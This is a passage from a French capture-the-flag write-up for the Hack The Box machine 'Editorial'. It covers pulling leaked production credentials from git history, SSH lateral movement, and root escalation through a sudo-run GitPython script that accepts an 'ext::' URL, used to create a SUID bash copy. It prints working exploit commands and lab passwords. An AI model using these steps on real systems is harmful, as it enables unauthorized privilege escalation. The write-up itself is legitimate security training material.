Tu peux ensuite entrer dans la copie locale :

```
cd apps_editorial
```

À partir de maintenant, l’analyse se fait directement sur Kali.

Tu peux vérifier l’état du dépôt :

```
git status
```

Puis afficher l’historique des commits :

```
git log --oneline
```

Cette méthode est plus confortable : tu disposes d’une copie locale complète, tu peux parcourir l’historique, inspecter les commits et rechercher des chaînes intéressantes sans travailler directement sur la cible.

### Analyse de l’historique Git

Depuis la copie locale du dépôt sur Kali, tu affiches l’historique des commits :

```
git log --oneline
8ad0f31 (HEAD -> master) fix: bugfix in api port endpoint
dfef9f2 change: remove debug and update api port
b73481b change(api): downgrading prod to dev
1e84a03 feat: create api to editorial info
3251ec9 feat: create editorial app
```

L’historique est court, ce qui facilite l’analyse.

Plusieurs messages de commit attirent l’attention :

- `fix: bugfix in api port endpoint`
- `change: remove debug and update api port`
- `change(api): downgrading prod to dev`

Les deux premiers indiquent des modifications autour d’un endpoint et du port de l’API. Cela correspond directement à ce que tu as exploité avec la SSRF sur `127.0.0.1:5000`.

Le commit le plus intéressant est toutefois :

```
b73481b change(api): downgrading prod to dev
```

Le message suggère qu’un changement a été effectué entre un environnement `prod` et un environnement `dev`, ou entre un utilisateur `prod` et un utilisateur `dev`.

Dans un dépôt Git, ce type de modification mérite toujours d’être inspecté, car il peut révéler une ancienne valeur remplacée, par exemple un identifiant, un mot de passe, une URL interne ou une configuration sensible.

### Extraction d’identifiants depuis l’historique Git

Tu inspectes le commit `b73481b`, repéré dans l’historique :

```
git show b73481b
```

Le commit porte le message suivant :

```
change(api): downgrading prod to dev

* To use development environment.
```

Ce message confirme que le commit remplace une configuration de production par une configuration de développement.

Dans la sortie de `git show`, Git affiche les différences entre l’ancienne version et la nouvelle version du fichier `app_api/app.py`.

La partie importante se trouve dans la fonction liée au message de bienvenue des nouveaux auteurs :

```
@app.route(api_route + '/authors/message', methods=['GET'])
def api_mail_new_authors():
    return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
    }) # TODO: replace dev credentials when checks pass
```

La ligne supprimée, marquée avec `-`, contient les anciens identifiants de production :

```
Username: prod
Password: 080217_Producti0n_2023!@
```

La ligne ajoutée, marquée avec `+`, correspond aux identifiants de développement que tu avais déjà récupérés via l’API interne :

```
Username: dev
Password: dev080217_devAPI!@
```

C’est exactement le type d’information que l’on cherche dans un historique Git.

Même si les identifiants `prod` ne sont plus présents dans la version actuelle de l’application, ils restent visibles dans un ancien commit. Le commit a bien remplacé les identifiants de production par des identifiants de développement, mais il n’a pas effacé l’information sensible de l’historique.

Le commentaire situé à la fin du bloc est également intéressant :

```
# TODO: replace dev credentials when checks pass
```

Il indique que les identifiants de développement étaient censés être temporaires. Cela renforce l’idée que les anciens identifiants `prod` peuvent encore être valides sur la machine.

La prochaine étape consiste donc à tester ces identifiants pour effectuer un mouvement latéral vers l’utilisateur `prod`.

### Mouvement latéral vers l’utilisateur prod

Tu testes les identifiants récupérés dans l’historique Git avec SSH :

```
ssh prod@editorial.htb
```

Avec le mot de passe trouvé dans l’ancien commit, la connexion réussit :

```
prod@editorial.htb's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-107-generic x86_64)
```

Tu vérifies ensuite l’identité de l’utilisateur courant :

```
prod@editorial:~$ id
uid=1000(prod) gid=1000(prod) groups=1000(prod)
```

Tu as maintenant effectué un mouvement latéral de `dev` vers `prod`.

Ce changement d’utilisateur est important : l’utilisateur `dev` a permis d’obtenir le premier accès SSH et de lire `user.txt`, mais l’historique Git a révélé un second compte local, `prod`, qui dispose potentiellement de permissions différentes.

### Vérification des droits sudo

Une fois connecté en tant que `prod`, tu vérifies ses droits sudo :

```
sudo -l
```

Le résultat montre que `prod` peut exécuter un script Python avec les privilèges `root` :

```
User prod may run the following commands on editorial:
    (root) NOPASSWD: /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Cette règle sudo est intéressante pour deux raisons :

- l’utilisateur `prod` peut exécuter le script sans mot de passe ;
- le script accepte un argument fourni par l’utilisateur.

Tu affiches ensuite le contenu du script pour comprendre son fonctionnement :

```
cat /opt/internal_apps/clone_changes/clone_prod_change.py
```

Le script utilise GitPython pour cloner un dépôt depuis une URL fournie en argument :

```
#!/usr/bin/python3

import sys
from git import Repo

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Le point sensible se trouve dans l’appel à `clone_from()`.

Le script autorise explicitement le protocole externe de Git avec l’option suivante :

```
-c protocol.ext.allow=always
```

Cette option permet d’utiliser une URL de type `ext::`.

Or, avec Git, le pseudo-protocole `ext::` peut exécuter une commande locale pour établir le transport Git. Comme le script est lancé avec `sudo`, cette commande est exécutée dans le contexte du script, donc avec les privilèges `root`.

L’objectif est donc de fournir au script une URL Git spéciale qui déclenche l’exécution d’une commande contrôlée.

### Création d’un Bash SUID

Pour exploiter cette configuration, tu prépares d’abord un petit script dans `/tmp`.

Ce script copie `/bin/bash` vers `/tmp/rootbash`, puis ajoute le bit SUID sur cette copie :

```
cat > /tmp/pwn.sh << 'EOF'
#!/bin/sh
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
```

Tu rends ensuite le script exécutable :

```
chmod +x /tmp/pwn.sh
```

Le principe est simple :

- `/bin/bash` est copié vers `/tmp/rootbash` ;
- `chmod 4755` ajoute le bit SUID ;
- comme l’opération est déclenchée via le script sudo, le fichier `/tmp/rootbash` appartient à `root` ;
- lorsque tu l’exécutes ensuite avec l’option `-p`, Bash conserve les privilèges effectifs de `root`.

Tu lances maintenant le script sudo avec une URL `ext::` qui appelle ton script `/tmp/pwn.sh` :

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh /tmp/pwn.sh'
```

Même si le clonage Git échoue ensuite, ce n’est pas le plus important.

Ce qui compte, c’est que la commande passée à `ext::` a été exécutée avant l’erreur Git. La copie SUID de Bash est donc créée dans `/tmp`.

Tu peux vérifier sa présence :

```
ls -la /tmp/rootbash
-rwsr-xr-x 1 root root 1396520 May 27 17:42 /tmp/rootbash
```

Le `s` dans les permissions confirme que le bit SUID est présent :

```
-rwsr-xr-x
```

### Obtention d’un shell root

Il ne reste plus qu’à exécuter cette copie de Bash avec l’option `-p` :

```
/tmp/rootbash -p
```

L’option `-p` est importante : elle indique à Bash de conserver les privilèges effectifs hérités du binaire SUID.

Sans cette option, Bash peut abandonner les privilèges élevés par mesure de sécurité.

Tu vérifies ensuite ton identité :

```
rootbash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
```

L’identifiant utilisateur réel reste `prod`, mais l’identifiant effectif est maintenant `root`.

### root.txt

Tu peux donc lire le flag final :

```
rootbash-5.1# cat /root/root.txt
2ffcxxxxxxxxxxxxxxxxxxxxxxxx1638
```

L’escalade de privilèges est terminée.

## Conclusion

- Récapitulatif de la chaîne d'attaque (du scan à root).
- Vulnérabilités exploitées & combinaisons.
- Conseils de mitigation et détection.
- Points d'apprentissage personnels.

---


